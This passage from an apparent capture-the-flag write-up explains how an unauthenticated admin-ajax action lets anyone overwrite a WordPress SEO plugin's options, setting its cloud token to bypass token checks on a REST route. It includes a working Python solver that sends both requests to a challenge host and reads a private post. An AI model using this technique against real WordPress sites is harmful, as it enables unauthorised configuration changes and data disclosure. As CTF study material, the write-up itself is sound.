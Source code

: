     		exit();

    	}
    ```

To activate this route, we need to enable several options stated here.

```php
	public function hookInit() {

		if ( SQ_Classes_Helpers_Tools::getOption( 'sq_api' ) == '' ) {
			return;
		}

		if ( ! SQ_Classes_Helpers_Tools::getOption( 'sq_cloud_connect' ) ) {
			return;
		}

		$this->token = SQ_Classes_Helpers_Tools::getOption( 'sq_cloud_token' );

		//Change the rest api if needed
		add_action( 'rest_api_init', array( $this, 'sqApiInit' ) );
	}

```

First, one is `sq_qpi`, the second is `sq_cloud_connect`, and the last is `sq_cloud_token` to bypass the token verification part.

Lastly, you just need to access that REST and specify `token` with your updated token via the `update_option`, `select` with the value `post`, and `id` with the ID of the post you want to read.

## Solver

```python
import httpx
import asyncio

URL = "http://52.77.81.199:9177/"
class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)

class API(BaseAPI):
    async def update_option(self) -> None:
        return await self.c.post("/wp-admin/admin-ajax.php?action=uptoyou", data={
            "option_name": "sq_options",
            "option_value[sq_cloud_token]": "dimas123",
            "option_value[sq_api]": "dimas123",
            "option_value[sq_cloud_connect]": "dimas123",
        })
    def get_flag(self):
        return self.c.get("/wp-json/squirrly/get?token=dimas123&select=post&id=5")

async def main():
    api = API()
    res = await api.update_option()    
    res = await api.get_flag()    
    print(res.text)

if __name__ == "__main__":
    asyncio.run(main())

```
